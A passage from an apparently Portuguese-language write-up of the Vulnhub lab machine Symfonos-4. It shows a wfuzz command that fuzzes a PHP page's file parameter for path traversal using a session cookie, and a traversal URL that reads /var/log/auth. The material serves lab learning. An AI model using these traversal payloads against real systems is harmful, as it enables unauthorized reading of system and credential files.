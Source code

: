 > Nao conseguimos acessar o /etc/passwd, /etc/issue...


* Utilizando o *wfuzz* vamos tentar achar algum arquivo que podemos acessar com o *path transversal*

```bash
wfuzz -c --hw 39 -b PHPSESSID=qam1dcn4sud2e3rhmbv6bbve6r -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://192.168.150.109/sea.php?file=../../../../../../../../../../FUZZ
```

![](/assets/img/Vulnhub/Symfonos-4/wfuzz.png)

> -c : Saida colorida

> --hw 39 : Excluir as opcoes que tem como saida em um dos campos o 39

> Utilizamos o cookie da sessao criada quando realizamos a tentativa de login, que nos permitiu acessar o sea.php

> Utilizamos uma wordlist do projeto SecLists, que pode ser baixado no endereco https://github.com/danielmiessler/SecLists. Essa wordlist e especifica para fuzzy de LFI


* Acessando o arquivo que temos permissao

```
http://192.168.150.109/sea.php?file=../../../../../../../../../../var/log/auth
```
